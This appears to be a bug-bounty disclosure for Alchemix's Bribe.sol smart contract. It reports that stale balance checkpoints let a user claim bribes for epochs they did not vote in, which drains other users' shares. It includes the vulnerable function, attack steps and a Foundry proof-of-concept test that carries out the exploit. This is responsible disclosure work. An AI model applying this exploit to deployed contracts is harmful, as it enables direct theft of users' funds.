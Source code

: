 
# A user is able to claim more bribes than they have earned

Submitted on May 21st 2024 at 02:09:30 UTC by @hulkvision for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31526

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- A user is be able to claim more bribes than they have earned

## Description
## Brief/Intro
A user is able to claim more bribes than they have earned by  claiming bribes for epochs they have not voted in. 
## Vulnerability Details
A user can claim bribes in next epoch for epochs they have voted in and once they have claimed bribes for the previous epoch they should  not be able to claim bribes again without voting or poke. 

The issue is when user claims the bribe reward for an epoch instead of balance of user getting reset, the balance of user remains unchanged and this allows user to claim bribe reward even for epochs they have not voted in.

In `Bribe.sol`
```solidity
function getRewardForOwner(uint256 tokenId, address[] memory tokens) external lock { 
        require(msg.sender == voter, "not voter");
        address _owner = IVotingEscrow(veALCX).ownerOf(tokenId);
        uint256 length = tokens.length;
        for (uint256 i = 0; i < length; i++) {
            uint256 _reward = earned(tokens[i], tokenId);

            require(_reward > 0, "no rewards to claim");

            lastEarn[tokens[i]][tokenId] = block.timestamp;

            _writeCheckpoint(tokenId, balanceOf[tokenId]); //@audit-issue balanceOf[tokenId] does reset to zero after claiming bribe and checkpoint is created with previous balance.

            IERC20(tokens[i]).safeTransfer(_owner, _reward);

            emit ClaimRewards(_owner, tokens[i], _reward);
        }
    }
```
> Steps for Attack
* User A and User B(BlackHat) create two tokenId with same amount and maxLock enabled.
* In Epoch 1 Both User A and User B(BlackHat) votes by calling `vote` function in `Voter.sol` thus becoming eligible for claiming bribes in epoch 2.
* In Epoch 2 Both User A and User B claims bribe and only user A votes in 
  epoch 2 so only User A should become eligible for claiming bribe in epoch 3 .
* In Epoch 3 User B claims bribe by calling `claimBribes` from `Voter.sol` here user B should not be able to claim bribe in epoch 3 because user B has already claimed bribe for voting in Epoch 1 in Epoch 2 and did not voted again in Epoch 3 but user B was able to claim bribe because of the vulnerability.

## Impact Details
* One of the assumed invariant set by Team has been broken 
>A user should never be able to claim more bribes than they have earned

* BlackHat can also prevent some users from claiming their share of bribe by  calling `claimBribes` before them and stealing their share of bribes.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L283-300



## Proof of Concept
* Add this test to `src/test/Voting.t.sol` and run with 
`forge test --mt testPOCVoteOnceAndClaimBribes() --rpc-url $RPC_URL -vvvv
`
```
function testPOCVoteOnceAndClaimBribes() public {
        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, true); // this user will be inconsistent in voting and claiming
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, true); //this will actively participate in voting

        
        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;

        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        // add bribes
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //first epoch
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(beef);
        voter.vote(tokenId2, pools, weights, 0);

        //2nd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // only admin voted and beef did not voted in epoch2
        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        // beef has claimed his bribes for voting in epoch 1 and did not voted in epoch 2
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        uint256 balanceEnd1 = IERC20(bal).balanceOf(bribeAddress);

        //bribe address should have 100k token which was deposited at the start of 2nd epoch
        assertEq(balanceEnd1,TOKEN_100K,"bribeAddress should have 100k which was deposited at the start of 2nd epoch");

        // 3rd epoch
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K); // this will be used in epoch 4

        //beef did not voted in  epoch 2 and already claimed bribe in epoch2 for voting in epoch1, so this should have reverted
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);
        console.log("beef  claimed bribe twice without voting or poke",IERC20(bal).balanceOf(beef));

        // admin voted in epoch 3
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);

        
        //4th epoch 
        hevm.warp(newEpoch());
        voter.distribute();
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        //beef immediately claimed bribe in the begining of epoch 4
        hevm.prank(beef);
        voter.claimBribes(bribes, tokens, tokenId2);

        hevm.prank(admin);
        // it will revert because of insufficient balance in bribe contract because beef has claimed bribe before admin
        vm.expectRevert(); 
        voter.claimBribes(bribes, tokens, tokenId1);

    }

```